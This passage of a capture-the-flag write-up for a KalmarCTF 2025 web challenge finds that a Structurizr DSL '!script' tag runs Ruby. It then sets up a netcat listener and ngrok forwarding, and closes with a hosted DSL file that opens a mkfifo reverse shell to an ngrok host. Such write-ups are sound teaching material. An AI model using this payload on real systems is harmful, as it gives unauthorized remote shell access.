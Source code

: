 Wait, `Could not load a scripting engine for extension "groovy"`?? It seems like it doesn't support Groovy.

How about `kotlin`?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250313163618.png)

Nope.

`ruby`??

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250313163639.png)

Oh, it worked!

Remember the weird "bug" fix in the challenge's `Dockerfile`?

```bash
# Fix 'bug' in structurizr/onpremises: the !script tag didn't work.
RUN sed -i '/^dependencies/a \    implementation "org.jruby:jruby-core:9.4.12.0"' structurizr-onpremises/build.gradle
```

Looks like only Ruby is supported for the `!script` tag! Now let's get a reverse shell using the handy `ncat` tool!

## Exploitation

Armed with above information, we can gain RCE and get a reverse shell via the following steps:
1. Host our own DSL file, which executes arbitrary Ruby code via the `!script` tag
2. Submit our DSL payload, where it uses the `extends` keyword to set the restricted mode to `false`

- Setup a netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:41:20(HKT)]
└> nc -lnvp 4444             
Listening on 0.0.0.0 4444

```

- Setup port forwarding:

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:41:21(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11310 -> localhost:4444                               
[...]
```

- Host our own DSL file:

```
workspace {
    !script ruby {
        value = `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|ncat 0.tcp.ap.ngrok.io 11310 >/tmp/f`
    }
}
```
